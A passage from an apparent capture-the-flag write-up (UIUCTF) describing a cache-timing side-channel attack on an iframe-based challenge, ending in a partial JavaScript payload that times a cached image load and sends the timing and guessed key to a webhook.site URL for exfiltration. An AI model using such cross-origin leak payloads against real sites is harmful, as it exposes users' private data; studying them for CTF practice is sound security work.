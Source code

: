 The first (dumb) idea was to try fetching from the cache, without loading from the origin. I tried using the "only-if-cached" option of javascript fetch.

https://developer.mozilla.org/en-US/docs/Web/API/Request/cache

```text
only-if-cached — The browser looks for a matching request in its HTTP cache.
If there is a match, fresh or stale, it will be returned from the cache.
If there is no match, the browser will respond with a 504 Gateway timeout status.
```

The idea didn't work because.. I didn't read the next paragraph :@ (lazy me).

```text
The "only-if-cached" mode can only be used if the request's mode is "same-origin". Cached redirects will be followed if the request's redirect property is "follow" and the redirects do not violate the "same-origin" mode.
```

So I couldn't use only-if-cached to fetch from a different subdomain. I took the exact error message above in my face, when testing locally.

## Side-channel attack

The caching idea was still good. If the y.png is on the cache, loading it wouldn't be at least a little faster?

It's an easy test on the hipothesis. Let's check 2 things:
* After loading the iframe with an obsviously-non-flag substring (#XXXXX), how long it takes to load the y.png?
* After loading the iframe with an obsviously-flag substring (#uiuctf), how long it takes to load the y.png?

Another important thing: since we're counting on the cache, we need a fresh browser instance, empty-cached, on each check.

Let's prepare our payload for check 1.

```html
<html>
    <head>
        <script>
            // No need anymore
            // fetch('https://webhook.site/8f324ab5-a556-4328-89bc-e9d606a390ba/fetching', {'mode': 'no-cors'});

            function runTest(param) {
                // Wait for the iframe to load (~500ms)
                setTimeout(() => {

                    // image to load for correct guess
                    img_url = 'https://sigpwny.com/uiuctf/y.png';

                    // image to report (exfiltration)
                    wh_url = 'https://webhook.site/8f324ab5-a556-4328-89bc-e9d606a390ba/';

                    var start = window.performance.now();

                    // Load the 'Y' image
                    fetch(img_url, {'mode': 'cors', 'cache': 'force-cache'}).then(response => {
                        var end = window.performance.now();
                        var timing = end - start;

                        // Exfiltrate load time for the image
                        fetch(wh_url + '/yanastats?status=' + response.status + '&time=' + timing + '&key=' + encodeURIComponent(param));
                    });
                    }, 500);
```